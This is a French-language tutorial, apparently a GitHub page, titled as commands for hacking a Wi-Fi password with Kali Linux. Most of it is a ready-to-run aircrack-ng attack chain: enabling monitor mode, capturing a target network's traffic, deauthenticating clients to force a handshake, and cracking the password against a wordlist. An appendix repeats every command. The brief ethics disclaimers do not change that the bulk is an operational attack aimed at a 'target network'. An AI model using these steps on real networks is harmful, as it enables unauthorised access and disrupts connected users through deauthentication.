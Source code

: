 ### Tutoriel : Commandes pour Hacker un Mot de Passe Wi-Fi

#### Introduction
Ce tutoriel vous guidera à travers les étapes nécessaires pour utiliser Kali Linux pour pirater un mot de passe Wi-Fi. Il est important de noter que ce guide est destiné à des fins éducatives et éthiques seulement. Assurez-vous d'avoir l'autorisation appropriée avant de tester ces techniques sur un réseau.

#### Prérequis
- Kali Linux installé sur une machine virtuelle (VMware) ou directement sur un PC.
- Un adaptateur sans fil compatible avec l'injection de paquets (par exemple, Alfa AWUS036ACH).
- Connexion internet pour télécharger les outils nécessaires.

#### Étapes

1. **Démarrer Kali Linux et ouvrir la ligne de commande**
    - Ouvrez votre machine virtuelle ou votre PC avec Kali Linux installé.
    - Accédez à la ligne de commande.

2. **Vérifier la disponibilité de votre adaptateur sans fil**
    ```bash
    ifconfig
    ```
    - Vous devriez voir votre adaptateur sans fil répertorié (généralement sous `wlan0`).

3. **Activer le mode moniteur**
    ```bash
    airmon-ng start wlan0
    ```
    - Remplacez `wlan0` par l'interface correspondant à votre adaptateur sans fil.

4. **Lister les réseaux Wi-Fi disponibles**
    ```bash
    airodump-ng wlan0mon
    ```
    - Prenez note du BSSID et du canal (CH) du réseau cible.

5. **Capturer les paquets du réseau cible**
    ```bash
    airodump-ng -c [channel] --bssid [BSSID] -w [output_file] wlan0mon
    ```
    - Remplacez `[channel]` par le canal du réseau cible.
    - Remplacez `[BSSID]` par le BSSID du réseau cible.
    - Remplacez `[output_file]` par le nom de fichier de sortie souhaité.

6. **Déauthentifier un appareil du réseau pour capturer le handshake**
    ```bash
    aireplay-ng --deauth 10 -a [BSSID] wlan0mon
    ```
    - Remplacez `[BSSID]` par le BSSID du réseau cible.
    - Cela forcera un appareil à se reconnecter, permettant de capturer le handshake.

7. **Vérifier la capture du handshake**
    ```bash
    aircrack-ng [output_file].cap
    ```
    - Remplacez `[output_file]` par le nom de fichier de sortie précédemment spécifié.

8. **Craquer le mot de passe avec un fichier de mots de passe**
    ```bash
    aircrack-ng -w [wordlist] -b [BSSID] [output_file].cap
    ```
    - Remplacez `[wordlist]` par le chemin vers votre fichier de mots de passe.
    - Remplacez `[BSSID]` par le BSSID du réseau cible.
    - Remplacez `[output_file]` par le nom de fichier de sortie.

#### Conclusion
En suivant ces étapes, vous pouvez tester la sécurité de votre propre réseau Wi-Fi. Rappelez-vous, utiliser ces techniques sans autorisation est illégal et contraire à l'éthique. Utilisez vos connaissances de manière responsable.

---
# Annexe

### Résumé des Commandes pour Pirater un Mot de Passe Wi-Fi

1. **Vérifier l'adaptateur sans fil**
   ```bash
   ifconfig
   ```

2. **Activer le mode moniteur**
   ```bash
   airmon-ng start wlan0
   ```

3. **Lister les réseaux Wi-Fi disponibles**
   ```bash
   airodump-ng wlan0mon
   ```

4. **Capturer les paquets du réseau cible**
   ```bash
   airodump-ng -c [channel] --bssid [BSSID] -w [output_file] wlan0mon
   ```

5. **Déauthentifier un appareil du réseau**
   ```bash
   aireplay-ng --deauth 10 -a [BSSID] wlan0mon
   ```

6. **Vérifier la capture du handshake**
   ```bash
   aircrack-ng [output_file].cap
   ```

7. **Craquer le mot de passe avec un fichier de mots de passe**
   ```bash
   aircrack-ng -w [wordlist] -b [BSSID] [output_file].cap
   ```

Remplacez les termes entre crochets `[ ]` par les valeurs appropriées :
- `[channel]` : Canal du réseau cible.
- `[BSSID]` : BSSID du réseau cible.
- `[output_file]` : Nom du fichier de sortie pour la capture des paquets.
- `[wordlist]` : Chemin vers votre fichier de mots de passe.

---
#### Références supplémentaires
- [Configurer votre nouvel adaptateur sans fil](https://adam-toscher.medium.com/configure-your-new-wireless-ac-1fb65c6ada57)
- https://adam-toscher.medium.com/configure-your-new-wireless-ac-1fb65c6ada57
- [Vidéo YouTube sur le piratage Wi-Fi](https://www.youtube.com/watch?v=bzCAMWP1G1U)

Pour toute question ou besoin de clarification supplémentaire, n'hésitez pas à demander!



# Références : 
- https://www.aircrack-ng.org/doku.php?id=fr:simple_wep_crack
- https://adam-toscher.medium.com/configure-your-new-wireless-ac-1fb65c6ada57
- https://www.youtube.com/watch?v=qCPfXK13UD4&ab_channel=UpgradeSecurity


